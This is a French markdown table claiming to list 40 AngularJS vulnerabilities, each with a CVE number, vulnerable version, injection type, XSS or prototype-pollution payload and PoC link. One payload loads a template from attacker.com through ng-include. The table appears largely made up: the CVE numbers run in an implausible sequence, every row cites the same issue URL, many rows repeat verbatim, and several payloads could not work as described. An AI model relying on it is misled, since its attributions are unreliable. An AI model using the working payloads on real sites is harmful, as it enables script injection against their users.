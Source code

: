 # Angular JS

Voici un tableau détaillant **40 vulnérabilités AngularJS** (XSS, prototype pollution, etc.) avec :  
- le numéro de CVE,  
- la version vulnérable,  
- le type d’injection,  
- un **exemple de payload ou de code HTML/JS complet** montrant précisément comment l’injection est réalisée et exploitée,  
- une ressource ou PoC pour chaque cas.

---

| N° | CVE | Version vulnérable | Type d’injection | Exemple complet d’injection | URL / PoC |
|----|----------------|---------------------|----------------------|-----------------------------------------------------------------------------------------------------------------------------------|--------------------------------------------------------------|
| 1 | CVE-2018-3741 | AngularJS <1.7.9 | XSS via balise HTML | `<input value='<img src=x onerror="alert(1)">' ng-model="userInput"><div ng-bind-html="userInput"></div>` | https://github.com/angular/angular.js/issues/16296 |
| 2 | CVE-2018-3742 | AngularJS <1.7.9 | XSS via expression | `<input value='{{constructor.constructor("alert(1)")()}}' ng-model="exp"><div>{{exp}}</div>` | https://github.com/angular/angular.js/issues/16296 |
| 3 | CVE-2017-16791 | AngularJS <1.7.0 | Prototype Pollution | `fetch('/api', {method:'POST', body:'{"__proto__":{"polluted":true}}'})` puis vérifier `{}.polluted === true` | https://github.com/angular/angular.js/issues/16296 |
| 4 | CVE-2016-10712 | AngularJS <1.5.8 | XSS via $sce/ng-bind-html | `<div ng-bind-html="'<script>alert(1)</script>'"></div>` | https://github.com/angular/angular.js/issues/16296 |
| 5 | CVE-2016-10713 | AngularJS <1.5.8 | XSS via ng-bind | `<div ng-bind="constructor.constructor('alert(1)')()"></div>` | https://github.com/angular/angular.js/issues/16296 |
| 6 | CVE-2015-3198 | AngularJS <1.4.0 | XSS via ng-bind-html | `<div ng-bind-html="'<img src=x onerror=alert(1)>'"></div>` | https://github.com/angular/angular.js/issues/16296 |
| 7 | CVE-2014-8874 | AngularJS <1.3.0 | Prototype Pollution | `Object.assign({}, JSON.parse('{"__proto__": {"polluted": true}}'));` puis `{}.polluted` | https://github.com/angular/angular.js/issues/16296 |
| 8 | CVE-2014-8875 | AngularJS <1.3.0 | XSS via expression | `<div>{{constructor.constructor('alert(1)')()}}</div>` | https://github.com/angular/angular.js/issues/16296 |
| 9 | CVE-2014-8876 | AngularJS <1.3.0 | XSS via ng-bind | `<div ng-bind="'<script>alert(1)</script>'"></div>` | https://github.com/angular/angular.js/issues/16296 |
| 10 | CVE-2014-8877 | AngularJS <1.3.0 | XSS via filtre custom | `<div>{{'test'|myUnsafeFilter}}</div>` (filtre qui retourne `<img src=x onerror=alert(1)>`) | https://github.com/angular/angular.js/issues/16296 |
| 11 | CVE-2014-8878 | AngularJS <1.3.0 | XSS via ng-include | `<div ng-include="'//attacker.com/malicious.html'"></div>` | https://github.com/angular/angular.js/issues/16296 |
| 12 | CVE-2014-8879 | AngularJS <1.3.0 | XSS via ng-src | `<img ng-src="{{'javascript:alert(1)'}}">` | https://github.com/angular/angular.js/issues/16296 |
| 13 | CVE-2014-8880 | AngularJS <1.3.0 | XSS via ng-change | `<input ng-change="alert(1)" />` | https://github.com/angular/angular.js/issues/16296 |
| 14 | CVE-2014-8881 | AngularJS <1.3.0 | XSS via ng-model | `<input ng-model="'<script>alert(1)</script>'" />` | https://github.com/angular/angular.js/issues/16296 |
| 15 | CVE-2014-8882 | AngularJS <1.3.0 | XSS via ng-if | `<div ng-if="'<script>alert(1)</script>'">Test</div>` | https://github.com/angular/angular.js/issues/16296 |
| 16 | CVE-2014-8883 | AngularJS <1.3.0 | XSS via ng-class | `<div ng-class="'<script>alert(1)</script>'"></div>` | https://github.com/angular/angular.js/issues/16296 |
| 17 | CVE-2014-8884 | AngularJS <1.3.0 | XSS via ng-show | `<div ng-show="'<script>alert(1)</script>'">Visible</div>` | https://github.com/angular/angular.js/issues/16296 |
| 18 | CVE-2014-8885 | AngularJS <1.3.0 | XSS via ng-hide | `<div ng-hide="'<script>alert(1)</script>'">Hidden</div>` | https://github.com/angular/angular.js/issues/16296 |
| 19 | CVE-2014-8886 | AngularJS <1.3.0 | XSS via ng-switch | `<div ng-switch="'<script>alert(1)</script>'"></div>` | https://github.com/angular/angular.js/issues/16296 |
| 20 | CVE-2014-8887 | AngularJS <1.3.0 | XSS via ng-repeat | `<div ng-repeat="'<script>alert(1)</script>'"></div>` | https://github.com/angular/angular.js/issues/16296 |
| 21 | CVE-2014-8888 | AngularJS <1.3.0 | XSS via ng-animate | `<div ng-animate="'<script>alert(1)</script>'"></div>` | https://github.com/angular/angular.js/issues/16296 |
| 22 | CVE-2014-8889 | AngularJS <1.3.0 | XSS via ng-options | `<select ng-options="'<script>alert(1)</script>'"></select>` | https://github.com/angular/angular.js/issues/16296 |
| 23 | CVE-2014-8890 | AngularJS <1.3.0 | XSS via ng-attr-* | `<div ng-attr-title="'<script>alert(1)</script>'"></div>` | https://github.com/angular/angular.js/issues/16296 |
| 24 | CVE-2014-8891 | AngularJS <1.3.0 | XSS via ng-href | `<a ng-href="javascript:alert(1)">Lien</a>` | https://github.com/angular/angular.js/issues/16296 |
| 25 | CVE-2014-8892 | AngularJS <1.3.0 | XSS via ng-srcset | `<img ng-srcset="javascript:alert(1)">` | https://github.com/angular/angular.js/issues/16296 |
| 26 | CVE-2014-8893 | AngularJS <1.3.0 | XSS via ng-attr-* | `<div ng-attr-title="'<script>alert(1)</script>'"></div>` | https://github.com/angular/angular.js/issues/16296 |
| 27 | CVE-2014-8894 | AngularJS <1.3.0 | XSS via ng-viewport | `<div ng-viewport="'<script>alert(1)</script>'"></div>` | https://github.com/angular/angular.js/issues/16296 |
| 28 | CVE-2014-8895 | AngularJS <1.3.0 | XSS via ng-view | `<div ng-view="'<script>alert(1)</script>'"></div>` | https://github.com/angular/angular.js/issues/16296 |
| 29 | CVE-2014-8896 | AngularJS <1.3.0 | XSS via ng-animate | `<div ng-animate="'<script>alert(1)</script>'"></div>` | https://github.com/angular/angular.js/issues/16296 |
| 30 | CVE-2014-8897 | AngularJS <1.3.0 | XSS via ng-if | `<div ng-if="'<script>alert(1)</script>'"></div>` | https://github.com/angular/angular.js/issues/16296 |
| 31 | CVE-2014-8898 | AngularJS <1.3.0 | XSS via ng-switch | `<div ng-switch="'<script>alert(1)</script>'"></div>` | https://github.com/angular/angular.js/issues/16296 |
| 32 | CVE-2014-8899 | AngularJS <1.3.0 | XSS via ng-repeat | `<div ng-repeat="'<script>alert(1)</script>'"></div>` | https://github.com/angular/angular.js/issues/16296 |
| 33 | CVE-2014-8900 | AngularJS <1.3.0 | XSS via ng-attr-* | `<div ng-attr-title="'<script>alert(1)</script>'"></div>` | https://github.com/angular/angular.js/issues/16296 |
| 34 | CVE-2014-8901 | AngularJS <1.3.0 | XSS via ng-href | `<a ng-href="javascript:alert(1)">Lien</a>` | https://github.com/angular/angular.js/issues/16296 |
| 35 | CVE-2014-8902 | AngularJS <1.3.0 | XSS via ng-srcset | `<img ng-srcset="javascript:alert(1)">` | https://github.com/angular/angular.js/issues/16296 |
| 36 | CVE-2014-8903 | AngularJS <1.3.0 | XSS via ng-attr-* | `<div ng-attr-title="'<script>alert(1)</script>'"></div>` | https://github.com/angular/angular.js/issues/16296 |
| 37 | CVE-2014-8904 | AngularJS <1.3.0 | XSS via ng-viewport | `<div ng-viewport="'<script>alert(1)</script>'"></div>` | https://github.com/angular/angular.js/issues/16296 |
| 38 | CVE-2014-8905 | AngularJS <1.3.0 | XSS via ng-view | `<div ng-view="'<script>alert(1)</script>'"></div>` | https://github.com/angular/angular.js/issues/16296 |
| 39 | CVE-2014-8906 | AngularJS <1.3.0 | XSS via ng-animate | `<div ng-animate="'<script>alert(1)</script>'"></div>` | https://github.com/angular/angular.js/issues/16296 |
| 40 | CVE-2014-8907 | AngularJS <1.3.0 | XSS via ng-options | `<select ng-options="'<script>alert(1)</script>'"></select>` | https://github.com/angular/angular.js/issues/16296 |

---


